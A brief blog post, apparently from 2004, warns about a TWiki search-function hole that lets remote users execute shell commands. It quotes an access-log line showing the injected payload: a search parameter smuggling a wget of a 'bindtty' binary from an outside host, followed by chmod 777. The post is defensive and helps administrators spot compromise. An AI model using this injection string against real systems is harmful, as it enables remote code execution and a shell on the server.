 ```yaml
---
layout: post
title: "Security warning with TWiki"
---
```




<a href="http://www.securitytracker.com/alerts/2004/Nov/1012223.html">TWiki Input Validation Hole in Search Function Lets Remote Users Execute Shell Commands</a> - This one got me at the OpenInteract wiki site. How do you know you've been bit? Check your access log for a GET URL like:
<pre class="smallSourceCode">
search/TWiki/?search=doesnotexist1%27%3B+%28wget+http%3A%2F%2Fblank.exitnic.net%2Fbindtty%3B+chmod+777+bindtty...
</pre>
<p>As long as your web server is running as an unprivileged user (like <tt>apache</tt>) you shouldn't be up the creek. It's still goddamned annoying these little bastards make simple things a chore...</p>
 



